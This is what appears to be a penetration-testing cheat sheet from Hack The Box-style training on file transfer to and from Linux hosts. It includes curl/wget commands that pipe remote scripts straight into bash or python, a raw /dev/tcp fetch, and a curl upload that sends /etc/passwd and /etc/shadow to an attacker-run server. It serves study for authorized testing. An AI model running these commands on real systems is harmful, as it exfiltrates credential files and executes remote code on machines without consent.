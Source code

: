 [[Pentest/File Transfer/Linux]]
[[File transfer common]]
# Download files
```shell
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh

curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

#### Fileless
```shell
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash

wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```

#### Bash
#bash
```shell
h@htb[/htb]$ exec 3<>/dev/tcp/10.10.10.32/80

h@htb[/htb]$ echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3

h@htb[/htb]$ cat <&3
```

#### SSH
[[ssh]]
```shell
h@htb[/htb]$ sudo systemctl start ssh

h@htb[/htb]$ scp plaintext@192.168.49.128:/root/myroot.txt . 
```

# Upload files

Start server:
```shell
sudo python3 -m pip install --user uploadserver

openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'

sudo python3 -m uploadserver 443 --server-certificate ~/server.pem
```
Upload:
```shell
curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

Python/PHP/Ruby servers:
#python #php [[ruby]]
```shell
python3 -m http.server

python2.7 -m SimpleHTTPServer

php -S 0.0.0.0:8000

ruby -run -ehttpd . -p8000

npx http-server -p 8000
```